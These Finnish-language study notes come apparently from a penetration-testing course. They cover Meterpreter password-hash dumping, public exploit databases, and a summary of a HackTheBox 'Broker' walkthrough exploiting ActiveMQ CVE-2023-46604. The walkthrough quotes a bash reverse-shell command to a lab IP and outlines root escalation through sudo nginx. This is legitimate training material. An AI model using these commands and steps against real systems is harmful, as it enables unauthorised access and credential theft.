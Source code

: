       - Onnistunut hyödyntäminen mahdollistaa hyökkääjän suorittaa mielivaltaista koodia etäjärjestelmässä. Vaikka tämä hyökkäys on vanha, monet organisaatiot joutuvat edelleen turvautumaan joihinkin vanhoihin järjestelmiin.
      - Lopuksi hyödyntäminen tulisi tarjota meille vastaava Meterpreter-kuori kuin aiemmassa hyödyntämisessä. Hashdump-komento paljastaa kaikki käyttäjänimet ja salasanahajautukset. Lisäksi näiden tietojen tallentamiseksi verkossa liikkumisen tehostamiseksi testaajat voivat käyttää incognito- ja kiwi-moduuleja msfconsolessa.
  * Using public exploits
    - Jokainen hyökkääjä pitää silmällä jatkuvasti julkisia exploitteja ja muokkaa niitä tarpeidensa mukaisesti.
    - Usein penetraatiotestaajat löytävät nollapäivän hyödyntämisen testeissään, ja he yleensä ilmoittavat siitä yritykselle. Hyökkääjien tapauksessa kaikki löytyneet haavoittuvuudet muunnetaan exploiteiksi, jotka myydään rahasta/tunnustuksesta yrityksille.
    - Internetistä löytyy tietokantoja, jotka sisältävät exploiteja (Milw0rm, Exploit-DB (EDB)
    - Exploit-DB: EDB on tietokanta-arkisto julkisista exploiteista yhdessä haavoittuvien ohjelmistoversioiden kanssa. EDB on upotettu osaksi Kali Linux 2.0:aa osana julkaisua, ja sen avulla on melko helppo etsiä kaikkia saatavilla olevia exploiteja SearchSploitin kautta.
    - SearchSploit: yksinkertainen apuohjelma Kali Linuxissa, joka etsii kaikki exploitit EDB:stä avainsanahaulla hyökkäyksen alueen kaventamiseksi.


- Vapaavalintainen läpikävely [0xdf](https://0xdf.gitlab.io/) tai [ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA/videos) (Kannattaa valita helppo; esim "Base Points: Easy")
  - [HTB: Broker](https://0xdf.gitlab.io/2023/11/09/htb-broker.html)
    - Broker on HackTheBoxin laatikko, joka korostaa vakavaa haavoittuvuutta ActiveMQ-viestijonovälittäjässä (CVE-2023-46604). Hyökkääjä hyödyntää tätä haavoittuvuutta saadakseen pääsyn järjestelmään, päästäkseen root-käyttäjäksi ja ajaa nginx:ää root-käyttäjänä, asettaa pystyyn valepalvelimen tiedostonlukua varten, ja lopulta kirjoittaa SSH-avaimen root-käyttäjälle. Lisäksi hän esittelee samanlaisen hyökkäystavan Zimbra-virhekonfiguraatiossa (CVE-2022-41347). Tässä tapauksessa hyökkääjä myrkyttää LD preload -tiedoston ajamalla nginx:n virhelokit kohti tuota tiedostoa ja lataamalla siihen haitallisen jaetun objektin.
    - Recon:
      - suorittaa Nmap-skannuksen ja löytää 9 avointa porttia (22,80,1883,5672,8161,39751,61613,61614,61616)
      - arvio porteista: SSH-portti voi olla hyödyllinen, portit 61613 ja 61616 liittyvät ActiveMQ:hun, portit 1883 ja 5672 liittyy viestijonoon, portit 8161 ja 61614 liittyvät Java-webpalvelimeen Jetty, portti 39751 on tuntematon ja OpenSSH-version perusteella todennäköisesti käytössä on Ubuntu 22.04 Jammy -versi.
      - Website - TCP 80:
        - sivusto kysyy tavallista HTTP-autentikointia
        - admin/admin-tunnukset toimivat. Autentikoinnin takana on on ActiveMQ:n hallintaliittymä
        - "Manage ActiveMQ broker" -linkki johtaa osoitteeseen /admin/: Tämä antaa mm. Broker ID:n, käynnissäolon ajan ja version
    - Shell as activemq:
      - tunnista haavoittuvuus
      - Ymmärrä exploit
      - aja POC
        - käynnistä Python-webpalvelin ja aja [Python-skripti](https://github.com/evkl1d/CVE-2023-46604)
        - webpalvelimella tapahtuu osuma, joten täytyy tarkastella XML-tiedostoa
        - hyökkäyksen mukana tulee poc.xml ja siinä kutsutaan selvästi perinteistä bash reverse shelliä, <code>bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001'</code>
        - päivitä kuorman omaan IP-osoitteeseen ja isännöi sitä Python-webpalvelimella
        - kun nc kuuntelee portissa 9001, aja hyökkäys uudelleen. Se hakee poc.xml:n.
        - pääsy saadaan shelliin nc:n kautta. Tehdään shellin päivitys ja napataan user.txt-tiedosto
    - Shell as root:
      - käyttäjä "activemq" voi ajaa nginx-palvelinta juurikäyttäjänä ilman salasanaa
      - luodaan haitallinen web-palvelin
        - lähetään kyselyitä web-palvelimelle portissa 1337 ja voidaan lukea tiedostoja root-äyttäjänä
        - lippu tehtävään löytyy tiedostosta <code>localhost:1331/root/root.txt</code>
